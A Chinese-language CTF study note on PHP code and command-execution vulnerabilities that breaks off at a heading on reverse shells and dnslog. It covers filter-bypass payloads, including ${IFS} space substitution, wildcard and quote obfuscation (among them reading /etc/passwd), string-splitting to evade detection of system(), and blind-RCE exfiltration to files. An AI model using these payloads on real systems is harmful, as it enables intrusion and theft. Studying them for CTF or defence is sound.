




## 代码执行与命令执行

#### 简介

代码执行漏洞：服务器对**危险函数**过滤不严导致用户输入的一些字符串可以被转换成代码的函数（比如`eval`）

```php
小剧透：
system()：调用Shell 命令，执行命令后会直接输出命令结果
system容易被安全工具拦截检测，通常使用的绕过技巧：

$func = "sys" . "tem";
eval("$func('whoami');");
//将system分开

上述代码的逻辑是：
eval没执行前eval括号内的字母全是数据不是命令(因为有双引号)
eval执行后
system才被调用
```

命令执行漏洞：Web应用的脚本代码在执行命令的时候过滤不严

---

#### 两者的关系

代码执行通常可以转化为命令执行：

```
如果你拥有了代码执行权限，最常规的操作就是利用语言自身的系统调用函数来执行系统命令。

🌰：
存在 eval($_POST['cmd']); 漏洞
传入 cmd=system('cat /flag');，这就是通过代码执行打通了命令执行
```

---

#### 常用命令执行函数

1. system

该函数会把执行结果输出 并把输出结果的最后一行作为字符串返回 如果执行失败则返回false 这个也最为常用



2. exec

不输出结果,返回执行结果的最后一行 可以使用`print_r`进行输出



3. `passthru`

此函数只调用命令 并把运行结果原样地直接输出 没有返回值。



4. shell_exec

不输出结果，返回执行结果 使用反引号(``)时调用的就是此函数

---

#### 命令链接符

总共有五个


- `cmd1 | cmd2`：`cmd1`的输出作为`cmd2`的输入，最后只显示`cmd2`的结果

例子：

```bash
ls -l | grep ".txt"(最终屏幕上只会输出文本文件的详细信息)
ps aux | grep "ssh"(只显示与 SSH 相关的进程，方便检查服务是否在运行,ps aux:输出当前系统中正在运行的所有进程列表)
```

注意：

```bash
ping 127.0.0.1|ls
ping完之后直接就执行ls，ls 命令在编写时，只被设计为读取“参数”，完全不理会“标准输入”
cat flag也是
```


- `cmd1 || cmd2` ：只有当`cmd1`执行失败后，`cmd2`才被执行

(其实这个就是 或 )

```bash
cd /var/log/app || exit 1
```


- `cmd1 & cmd2`

Windows：先执行 `cmd1`，不管是否成功，都会执行 `cmd2`（顺序执行）

Linux：在后台执行 `cmd1`，同时执行 `cmd2`（并行执行）

```bash
Linux 系统
启动图形化软件并释放终端:firefox & clear
启动服务并实时查看日志:python3 -m http.server 8080 > server.log 2>&1 & tail -f server.log
```


- `cmd1 && cmd2`

(这个其实就是 与 )

```bash
编译并立刻运行程序:gcc main.c -o my_app && ./my_app
sudo apt update && sudo apt upgrade -y
```


- `cmd1 ; cmd2`    按顺序依次执行，先执行`cmd1再执行cmd2`

```bash
sleep 1800 ; echo "已经坐了半小时了，站起来活动一下！"
```

---

#### 常用代码执行函数


- ${}执行代码

```php
<?php
${phpinfo()};
?>
```



- eval

```
<?php
eval('echo("hello");');
?>
```

## 过滤绕过

#### 空格过滤绕过

对于下面的PHP代码，会将空格替换为空:

```php
<?php
$cmd = $_GET['cmd'];
$cmd = str_replace(" ","",$cmd);
system($cmd);
?>
```

1. 用 ${IFS} 代替空格

```bash
cat${IFS}flag.php
如果 {} 被过滤:
cat$IFSflag.php  cat${IFS}$9flag.php
```

> 拓展：

> **`$9`（解析为空字符串）**：在 Linux shell 中，`$1` 到 `$9` 代表运行时传递给当前环境的位置参数。因为当前页面并没有给系统底层传递第 9 个参数，所以 **`$9` 的值完全为空**（什么都没有）。


2. 其他URL 编码的空白字符

```bash
%09  → 制表符（Tab键）
%0b  → 垂直制表符
%0c  → 换页符
%20  → 空格（有些过滤只过滤真正的空格字符）

cat%09flag.php
```


3. 用重定向符 <

```bash
因为 < 不需要空格：
cat<flag.php
shell 解析后仍然会输出文件内容。
```


4. 用 {} 组合

```bash
shell 会把 {} 展开：{cat,flag.php}
等价执行：cat flag.php
```

---

#### 文件名过滤绕过(如flag)

1. ??，*，[]绕过

```bash
cat /fl??
cat /fl*
cat /f[a-z]{3}
cat /fla[a-g]
以上指令等效于cat /flag
```


2. 单引号(')双引号("")反引号(``)绕过正则

```bash
cat /fl""ag
c""at /e't'c/pas``s``wd 
```


3. 反斜杠\绕过

\特殊字符去掉功能性，单纯表示为字符串，而linux看到反斜线\会自动帮你去掉,正常执行命令

```bash
cat fl\ag.p\hp
```


4. 内联执行绕过

```bash
a=c;b=a;c=t;$a$b$c /flag.php
a=f;c=a;d=g;b=l;cat $a$b$c$d.php
```

---

#### 读取命令绕过(如cat)

1. `tac`:反向显示，从最后一行开始往前显示

```bash
tac /flag
```


2. more:一页一页显示档案内容

```bash
more flag.php
```


3. less：与more类似

```bash
less flag.php
```


4. tail：查看末尾几行

```bash
tail flag.php
```


5. `nl`：显示的时候，顺便输出行号

```bash
nl /flag
```


6. `xxd`：读取二进制文件

```bash
xxd /flag
```


7. `grep`：在文本中查找指定字符串

```bash
passthru("grep fla /fla*");
```


8. file -f:报错出具体内容

```bash
passthru("file -f /flag");
```

---

#### 常见文件读取命令绕过(base,hex)

1. `base64`编码


2. hex编码（需要装`xxd`命令）


3. 八进制（Octal）编码


## 无回显`rce`

情景：在`ctf`中，有时会遇到无回显`rce`，就是说虽然可以进行命令执行，但却看不到命令执行的结果，也不知道命令是否被执行

```php
<?php
highlight_file(__FILE__);
$a=$_GET['a'];
exec("$a");
//$b=exec("$a");
//echo $b;
?>
```


首先可以通过**延时**来判断是否进行了命令执行。推荐sleep命令。在Linux中sleep命令是用于指定操作系统休眠的命令，例如sleep 3的话就是让操作系统休眠`3s`。


#### tee命令

```bash
ls | tee a #将ls的结果输入文件a中
```

ip?a=ls | tee 1.txt

访问ip/1.txt


#### `cp`和`mv`和重定向

```bash
cp flag.php 1.txt
mv flag.php 1.txt
cat flag.php > 1.txt
cat flag.php >> 1.txt
```


#### 反弹`shell`以及外带`dnslog`


`dnslog`：